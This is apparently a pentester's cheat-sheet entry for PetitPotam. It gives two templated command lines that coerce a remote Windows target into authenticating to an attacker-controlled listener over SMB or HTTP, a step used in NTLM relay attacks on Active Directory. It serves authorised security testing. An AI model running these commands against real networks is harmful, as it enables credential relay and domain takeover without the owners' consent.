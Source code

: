 # Petitpotam

% petitpotam, Active directory

## coerce to auth over SMB
#plateform/linux  #target/remote #cat/ATTACK/COERCE
https://github.com/topotam/PetitPotam
```
PetitPotam.py -u <user> -p '<password>' -d <domain_fqdn> <listener_ip> <target_ip>
```

## coerce to auth over HTTP
#plateform/linux  #target/remote #cat/ATTACK/COERCE
https://github.com/topotam/PetitPotam
```
PetitPotam.py -u <user> -p '<password>' WIN-JUBEAZ@80/files <target_ip>
```